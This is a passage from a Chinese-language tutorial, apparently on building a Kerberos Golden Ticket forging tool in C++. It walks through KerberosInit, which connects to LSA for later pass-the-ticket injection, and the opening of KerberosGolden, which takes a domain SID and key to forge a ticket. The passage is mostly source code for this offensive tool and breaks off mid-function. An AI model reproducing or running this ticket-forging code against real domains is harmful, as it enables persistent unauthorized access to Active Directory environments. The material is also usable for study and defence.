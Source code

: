 ```c++
    KerberosClean();
}
```

之后通过 `KerberosInit()` 函数进行 Kerberos 身份验证包的一些初始化工作。

Kerberos Init
-------------

`KerberosInit()` 函数定义如下，该函数主要 `LsaConnectUntrusted()` 函数与 LSA 服务器建立不受信任的连接，然后通过 `LsaLookupAuthenticationPackage()` 函数获取 Kerberos 身份验证包的唯一标识符并保存到 `AuthenticationPackage` 变量中。

```c++
LSA_STRING KerberosPackageName = { 8, 9, (PCHAR)MICROSOFT_KERBEROS_NAME_A };
ULONG   AuthenticationPackage = 0;
BOOL    isAuthPackageKerberos = FALSE;
HANDLE  hLSA = NULL;

BOOL KerberosInit()
{
    BOOL status = FALSE;
    // Open LSA policy handle
    status = NT_SUCCESS(LsaConnectUntrusted(&hLSA));
    if (status)
    {
        // Lookup authentication package ID
        status = NT_SUCCESS(LsaLookupAuthenticationPackage(hLSA, &KerberosPackageName, &AuthenticationPackage));
        isAuthPackageKerberos = status;
    }
    return status;
}
```

这里主要是为了后续伪造黄金票据后，通过 LsaCallAuthenticationPackage API 将伪造的票据提交到内存中，暂时用不到。

接下来将调用 `KerberosGolden()` 函数，执行票据伪造的过程，该函数定义如下。

```c++
BOOL KerberosGolden(LPCWSTR lpUser, LPCWSTR lpDomain, LPCWSTR lpService, LPCWSTR lpTarget, LPCWSTR lpKey, LONG dwKeyType, LPCWSTR lpSid, BOOL isPtt)
{
    BOOL status = FALSE;
    BYTE Key[AES_256_KEY_LENGTH] = { 0 };
    PWCHAR netbiosDomain = NULL;
    PISID pSid = NULL;
    PBERVAL BerAppKrbCred = NULL;
    KERBEROS_LIFETIME_DATA lifeTimeData;
    PKERB_ECRYPT pCSystem;

    // Intercept the NetBIOS Domain through the Domain provided by the user.
    // For example, get pentest via pentest.com.
    if (LPCWSTR baseDot = wcschr(lpDomain, L'.'))
    {
        DWORD i = (DWORD)((PBYTE)baseDot - (PBYTE)lpDomain);
        if (netbiosDomain = (PWCHAR)LocalAlloc(LPTR, i + sizeof(wchar_t)))
            for (DWORD j = 0; j < i / sizeof(wchar_t); j++)
                netbiosDomain[j] = towupper(lpDomain[j]);
    }
    // Find the encryption system of the dwKeyType type through the 
    // CDLocateCSystem function and store it in the pCSystem structure.
    status = NT_SUCCESS(CDLocateCSystem(dwKeyType, &pCSystem));
    if (!status)
    {
        wprintf(L"[-] CDLocateCSystem Error [%u].\n", GetLastError());
        return status;
```